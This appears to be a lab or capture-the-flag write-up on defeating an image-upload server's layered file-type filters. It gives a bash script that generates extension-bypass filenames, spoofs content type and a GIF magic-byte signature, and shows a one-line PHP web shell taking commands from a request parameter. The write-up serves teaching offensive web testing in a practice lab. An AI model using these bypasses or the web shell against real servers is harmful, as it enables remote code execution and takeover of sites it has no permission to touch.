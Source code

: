 # Type Filters

The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"

As the Lab suggests, the server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to guarantee that the file uploaded is an image.

So we must apply all the knowledge learned so far.

We start by capturing the request and send to the Intruder.

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Lets cover 3 components in this test:

* File extension - filename="§x§"
* Content-type - image/jpg
* File Signature - GIF8

We placed the `<?php echo "shell test";?>` to see if the php code was acttually executed.

To iterate the values of the file extensions let's create our own wordlist with the following script:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' 'php3' '.phar'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

Copy the content to the Intruder's payload configuration and run it. Don't forget to untick the payload encoding checkbox.

We placed the `<?php echo "shell test";?>` to see if the php code was acttually executed.

When the Intruder finishes the attack we can order by length, since the successfully uploaded files have a length of 229 and 230.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Now lets modify the Request by send it to the Repeater.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

We change the name (optional) to **shell.gif:.phar** and for the php code we change to this:

```php
<?php system($_REQUEST['cmd']); ?>
```



<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

We do a simple just by execute the `id` command, as we can see from the output the above we manage to get a webshell!

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Now we just have to found the flag, that in our case is in our root directory.
